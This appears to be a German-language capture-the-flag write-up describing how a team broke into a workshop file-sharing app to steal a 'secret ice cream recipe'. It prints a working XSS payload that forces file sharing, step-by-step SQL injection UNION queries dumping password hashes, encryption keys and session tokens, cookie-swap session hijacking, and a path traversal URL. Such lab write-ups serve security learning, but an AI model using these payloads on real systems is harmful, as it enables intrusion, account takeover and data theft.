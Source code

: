 # Vorgehen:

## Cross Site Scripting mit manipuliertem File

halb phishing, halb cross site scripting

siehe `niedliche_katzen.html`:
```html
<script>
  async function gimmeRecipe(file, user) {
    const response = await fetch(`/files/${file}/share`, {
      method: 'POST',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
      },
      body: `userName=${user}`
    });
    return response.text();
  }

  gimmeRecipe("secret_ice_cream_recipe.txt","mee");
  gimmeRecipe("secret_ice_cream_recipe.txt","stephan");
</script>

<img src="https://icatcare.org/app/uploads/2018/07/Thinking-of-getting-a-cat.png"/>
```

das ganze erst mit 2 test accounts (stephan, mee) und einem bekannten file (z.b. einer steal_me.txt) getestet
(dann natuerlich nur eine gimmeRecipe zeile mit dem dateinamen und dem entsprechend andren user)

==> funktioniert, also variante mit dem ice-cream filenamen hochgeladen, an aarktos geteilt, und gehofft, dass aarktos da mal draufklickt
==> ergebnis: wir haben in unsrem kontext dann zugriff auf das rezept:
```
Das Geheimnis ist, dass ich die Eiscreme heimlich bei LIDL kaufe.
```


## Variante 2

suchen wir mal nach SQL Injection

=> bei User-Suche funktionierts: `";` bringt Fehler "You have an error in your SQL syntax"

=> mit UNION koennten wir rausfinden, welche tabellen/spalten etc es gibt

=> wir muessen wissen, wieviele spalten wir im zweiten select brauchen:\

- `" UNION SELECT 1 #` geht nicht
- `" UNION SELECT 1, 2 #` geht nicht
- `" UNION SELECT 1, 2, 3 #` geht nicht
- `" UNION SELECT 1, 2, 3, 4 #` geht nicht
- `" UNION SELECT 1, 2, 3, 4, 5 #` funktioniert und zeit einen user 3 (2) an => wir koennen die spalten 2 und 3 nutzen

```
" UNION SELECT 1, table_schema, table_name, 4, 5 FROM information_schema.tables #
```
sagt uns, es gibt ein schema `ctf` mit 2 tabellen:
- `sessions`
- `users`

schaun wir mal, welche spalten es da gibt:
```
" UNION SELECT 1, table_name, column_name, 4, 5 FROM information_schema.columns where table_schema="ctf" #
```
sagt uns, es gibt folgende spalten:
- Tabelle `sessions`:
  - `id`
  - `userName`
  - `token`
- Tabelle `users`:
  - `id`
  - `userName`
  - `displayName`
  - `passwordHash`
  - `encryptionKey`

```
" UNION SELECT 1, username, passwordHash, 4, 5 FROM ctf.users #
" UNION SELECT 1, username, encryptionKey, 4, 5 FROM ctf.users #
```
bringt uns folgende Infos für den aarktos User:
- passwordHash: `8166409a93efe863da3012c8f8dd2157`  --> ist offenbar md5, aber crackstation kennt den hash leider ned :-( (unsre test-account passwörter konnten so ermittelt werden)
- encryptionKey: `b2d97aa13ae22bea8697646b40c216ecff084c6c99ddfcbf4c763b7b62d131d9`  --> wenn wir ans raw file kommen, könnten wir damit decrypten

aber was steht denn nun in der andren tabelle drin?

```
" UNION SELECT 1, username, token, 4, 5 FROM ctf.sessions #
```
damit bekommen wir eine liste aller offenen sessions...

- `2035f37c-093f-4611-8c85-66a256886ded` => aarktos
- ...

v.a. finden wir auch einen Eintrag, wo der SessionKey genau dem Cookie entspricht, dass wir selber im Browser bei jedem Request mitschicken
=> wir können einfach im Browser in der Dev-Konsole das eigene Cookie durch eine fremde SessionId austauschen, und sobald wir dann auf die Files Seite
gehen, sehen wir die Files von aarktos :-)

netter nebeneffekt: hier können wir das Rezept auch noch verfälschen, nachdem wir es gestohlen haben :-)


### Raw File

wir haben ja den encryptionKey von aarktos, wie kommen wir ans File?

das styles.css wird über eine url eingebunden, die verdächtig aussieht...


```
https://team1.workshop.thenativeweb.io/cache?fileName=../../app/data/aarktos/secret_ice_cream_recipe.txt
```
liefert auch brav das geforderte file, jetz kann mans decrypten
